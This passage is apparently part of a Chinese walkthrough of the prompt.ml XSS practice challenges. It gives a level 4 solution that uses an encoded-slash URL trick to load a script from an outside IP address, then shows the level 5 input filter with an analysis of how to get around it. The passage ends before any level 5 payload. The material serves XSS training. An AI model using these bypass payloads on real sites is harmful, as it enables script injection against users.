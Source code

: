 

## Solutions:

```
1.http://prompt.ml%2f@10.60.250.250/pro.js
```

## Img:

1. `http://prompt.ml%2f@10.60.250.250/pro.js`

![4_1](/img/xss/prompt_ml/level4_001.png)

# Level 5

## Code:

```
function escape(input) {
    // apply strict filter rules of level 0
    // filter ">" and event handlers
    input = input.replace(/>|on.+?=|focus/gi, '_');

    return '<input value="' + input + '" type="text">';
}     
```

## 分析:

```
将> onXXX= focus替代为了_ (其中XXX代表任意字符)
过滤>的目的是为了防止>构造闭合。
过滤onXXX=是为了过滤on开头的事件。
过滤focus是为了过滤focus事件
对于<input value="" type="text">中type和value的顺序,能够利用img
```
